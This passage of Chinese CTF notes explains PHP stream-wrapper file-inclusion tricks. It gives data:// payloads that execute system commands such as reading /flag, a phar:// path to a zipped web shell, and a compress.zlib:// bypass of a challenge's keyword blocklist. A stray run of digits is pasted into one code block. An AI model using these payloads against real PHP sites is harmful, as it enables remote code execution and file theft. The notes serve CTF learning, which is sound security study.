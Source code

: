 ------

##### 3. data://

> data://，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行

```php
data://text/plain;base64
```

读php文件源码：

```php
data:text/plain,<?php system('cat /flag');?>
```

或者命令执行：

```php
data:text/plain,<?php system('whoami');?>
```

------

##### 4.zip://,bzip2://,zlib://,phar://

这些没怎么用到过，记得可以用在文件上传上面，把shell压缩到zip中，如果file参数可控，可以通过该协议访问压缩包中文件。

payload如下：

```
index.php?file=phar://uploads/ok.zip/ok.php
```

这道题也可以用到这个协议

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
12345678910111213141516
?file=compress.zlib://flag.php
```

------
